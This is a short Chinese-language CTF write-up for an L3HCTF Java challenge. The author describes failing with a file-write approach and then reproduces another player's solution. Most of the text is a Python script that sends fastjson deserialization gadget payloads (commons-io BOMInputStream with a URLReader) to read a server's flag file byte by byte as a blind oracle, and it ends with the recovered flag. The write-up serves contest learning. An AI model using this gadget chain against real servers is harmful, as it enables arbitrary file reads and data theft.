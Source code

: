 https://cloud.tencent.com/developer/article/1829644

正好根据题目给的`JDK_HOME:/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.292.b10-1.el8_4.x86_64`，知道了JDK的路径，可能是写文件。

但是在打的时候发现了`MarshalOutputStream`和`InflaterOutputStream`这两个类被ban了。然后啊，我就G了。。。。



赛后复现别的师傅的writeup，他是读文件，参考文章：

https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247484866&idx=1&sn=23fb7897f6e54cdf61031a65c602487d&scene=21#wechat_redirect



盲注即可：

```python
import requests
import string

url="http://124.71.173.23:8088/dynamic_table"

headers={
    "Cookie":"JSESSIONID=55E2836FC031E7C69976B142F1172901"
}
flag=""
for i in range(10000):
    for j in string.printable:
        payload="""[{"age":{
            "age": {
                "@type": "java.lang.AutoCloseable",
                "@type": "org.apache.commons.io.input.BOMInputStream",
                "delegate": {
                    "@type": "org.apache.commons.io.input.ReaderInputStream",
                    "reader": {
                        "@type": "jdk.nashorn.api.scripting.URLReader",
                        "url": "file:///flag"
                    },
                    "charsetName": "UTF-8",
                    "bufferSize": 1024
                },
                "boms": [{
                    "charsetName": "UTF-8",
                    "bytes": ["""+flag+str(ord(j))+"""]
                }]
            },
            "address": {
                "$ref": "$.abc.BOM"
            }},"id":1,"password":"1","username":"1"
        }]"""
        data={
            "data":payload
        }
        r=requests.post(url=url,data=data,headers=headers)
        if "charsetName" in r.text:
            flag += str(ord(j))+","
            temp = flag.split(",")
            temp.remove("")
            for k in temp:
                print(chr(int(k)),end="")
            print()
            break
#L3HCTF{cov3r_means_discover_4nd_k1ll_1t_over!!}
```
